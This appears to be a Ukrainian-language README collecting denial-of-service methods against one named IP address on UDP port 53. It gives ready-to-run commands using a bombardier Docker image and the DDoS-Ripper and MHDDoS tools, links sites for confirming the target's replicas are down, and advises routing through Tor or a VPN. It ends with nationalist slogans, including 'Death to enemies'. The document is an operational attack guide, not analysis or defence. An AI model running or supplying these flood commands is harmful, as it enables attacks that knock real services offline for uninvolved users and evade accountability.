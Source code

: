 # Збірка DDoS методів


## Провірка

**ping** метод (відкривати в Tor Browser або в будь-якому якщо є окрмеий VPN).

Ці сайти, це аналог звичайного ping-a тільки є дані про репліки (лоад балансінг хости)

```
https://port.ping.pe/194.54.14.186:53
```

Клікнути на ОК, і чекати поки інфо рефрешнеться про всі репліки. Ціль - ВСІ ЧЕРВОНІ

А тут вписати ТІЛЬКИ ХОСТ і клікнути UDP port (або Ping для провірки)

```
https://check-host.net/check-udp?host=194.54.14.187
```


## DDoS-имо з Docker-ом



**Docker** метод 1 (треба VPN)

```
docker run -ti --rm alpine/bombardier -c 10000 -d 3600s -l 194.54.14.186:53/UDP
```





## DDoS-имо з Python-ом



**DDoS-Ripper** PYTHON метод (треба VPN)

```
git clone https://github.com/palahsu/DDoS-Ripper.git
cd DDoS-Ripper
python3 DRipper.py -s 194.54.14.186 -p 53 -t 135 -q 10000 
```


**MHDDoS** PYTHON (тільки 3) метод (треба VPN)

```
git clone https://github.com/MHProDev/MHDDoS.git
cd MHDDoS
pip3 install -r requirements.txt 
python3 start.py udp 194.54.14.186:53 1000 3600
```

Норм якщо ви бачите "Attack Started !"
Але в мене на іншому компі депси не проінсталиись. рестартував. хз.


# Слава Україні!

# Героям Слава!

# Слава Нації!

# Смерть Ворогам!

# Україна понад усе
